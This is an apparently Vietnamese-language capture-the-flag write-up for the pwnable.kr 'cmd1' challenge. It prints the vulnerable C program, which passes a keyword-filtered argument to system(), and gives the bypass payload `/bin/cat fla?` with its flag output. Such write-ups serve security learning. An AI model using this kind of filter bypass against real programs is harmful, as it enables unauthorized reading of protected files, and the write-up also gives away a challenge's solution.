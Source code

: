 ```
Information: 1 point

Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```

Source code

```bash
cmd1@pwnable:~$ ls
cmd1  cmd1.c  flag
cmd1@pwnable:~$ cat cmd1.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}

cmd1@pwnable:~$
```

Bài này lấy tham số truyền vào đem đi check filter với các giá trị ['flag', 'sh', 'tmp'], nếu trùng thì sẽ kết thúc chương trình. Đồng thời khi bắt đầu chạy thì ghi giá trị của biến môi trường `PATH` thành `/thankyouverymuch` khiến cho việc sử dụng các lệnh thông qua relative path không được.

=> Dùng absolute path + bypass filter

Payload: `/bin/cat fla?`

```bash
cmd1@pwnable:~$ ./cmd1 "/bin/cat fla?"
mommy now I get what PATH environment is for :)
cmd1@pwnable:~$
```

### random

```
Start day: 9/3/2025
End day: 9/3/2025
Evaluate: Beginner
```
